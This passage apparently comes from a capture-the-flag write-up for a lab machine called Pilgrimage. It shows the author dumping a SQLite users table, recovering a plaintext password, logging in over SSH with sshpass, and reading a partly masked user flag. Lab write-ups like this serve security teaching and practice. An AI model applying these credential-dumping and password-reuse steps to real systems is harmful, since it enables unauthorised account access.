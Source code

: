 There are two tables:

```

sqlite> .tables
images  users

```

The `images` table doesn’t look interesting, but the `users` table does:

```

sqlite> .schema users
CREATE TABLE users (username TEXT PRIMARY KEY NOT NULL, password TEXT NOT NULL);
sqlite> .schema images
CREATE TABLE images (url TEXT PRIMARY KEY NOT NULL, original TEXT NOT NULL, username TEXT NOT NULL);

```

There’s only a single user (mine must have been cleaned out):

```

sqlite> select * from users;
emily|abigchonkyboi123

```

### SSH

emily is a user on Pilgrimage (from the `/etc/passwd` file). This password works to connect over SSH:

```

oxdf@hacky$ sshpass -p abigchonkyboi123 ssh emily@pilgrimage.htb
Warning: Permanently added 'pilgrimage.htb' (ED25519) to the list of known hosts.
Linux pilgrimage 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
emily@pilgrimage:~$ 

```

And read `user.txt`:

```

emily@pilgrimage:~$ cat user.txt
94bda273************************

```

